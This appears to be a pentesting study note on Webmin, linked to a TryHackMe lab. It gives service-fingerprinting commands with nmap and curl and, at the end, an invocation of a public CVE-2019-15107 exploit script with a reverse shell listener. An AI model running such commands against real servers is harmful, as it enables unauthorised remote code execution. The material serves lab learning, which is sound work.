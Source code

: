 # webmin

[![source](../../../../../cybersecurity/_badges/thm-p/source.svg)](https://tryhackme.com/room/source)

<div class="row row-cols-lg-2"><div>

[Webmin](https://webmin.com/) (3.3k ⭐) is an open-source web-based interface for system administration for Linux systems. From the interface, we can:

* Manage packages
* Manage users
* Manage system configurations
* Manage network configurations
* ...

**Port** 🐊: 10000 (TCP)
</div><div>
</div></div>

<hr class="sep-both">

## Pentester Notes ☠️

<div class="row row-cols-lg-2"><div>

* You can use [nmap](/cybersecurity/red-team/tools/scanners/ports/nmap.md)

```shell!
$ nmap -p 10000 IP
10000/tcp open  snet-sensor-mgmt
$ nmap -p 10000 -sV IP
10000/tcp open  http    syn-ack MiniServ 1.890 (Webmin httpd)
```

* You can use cURL too if you want to find the version

```shell!
$ curl -s -I -k https://10.10.199.204:10000 | grep Server
Server: MiniServ/1.890
```
</div><div>

* You may be able to exploit [CVE-2019-15107](https://github.com/squid22/Webmin_CVE-2019-15107/blob/main/webmin_exploit.py)

```shell!
$ [...] # start a reverse shell listener
$ python3 webmin_exploit.py target_ip target_port host_ip host_port
```
</div></div>
